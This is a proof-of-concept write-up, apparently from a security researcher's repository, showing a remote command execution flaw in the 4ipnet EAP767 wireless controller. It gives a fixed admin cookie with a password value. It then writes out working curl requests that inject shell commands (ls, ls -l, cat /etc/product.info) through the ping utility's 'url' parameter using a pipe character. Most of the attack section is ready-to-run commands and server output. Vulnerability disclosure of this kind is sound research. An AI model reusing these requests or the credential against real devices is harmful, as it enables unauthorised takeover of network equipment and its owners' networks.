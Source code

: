 # RCE PoC for 4ipnet/EAP767 device

The login web page is found , and it's used for 4ipnet wireless network controller
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)


**Search online articles to obtain the default password for the device.**

**Web console features**

Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

The management interface has the Home > Utilities > Network Utilities feature, allowing network tests such as ping, tracert, arping, etc., to be performed through the web page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit PoC
**PoC I @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, verify HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


http request characteristics
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
> It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

:::danger
Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged:::

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**PoC II @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, it was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` page and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command
**Attemp I with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp II with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)



## Verify the device brand and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)

## Conclusion
The presence of a Remote Code Execution (RCE) vulnerability is in the product. Arbitrary commands can be executed by passing the url parameter.

## Reference
https://hkitblog.com/12770/
https://www.lienshen.com.tw/sidebar1_01-2-11.html
https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1
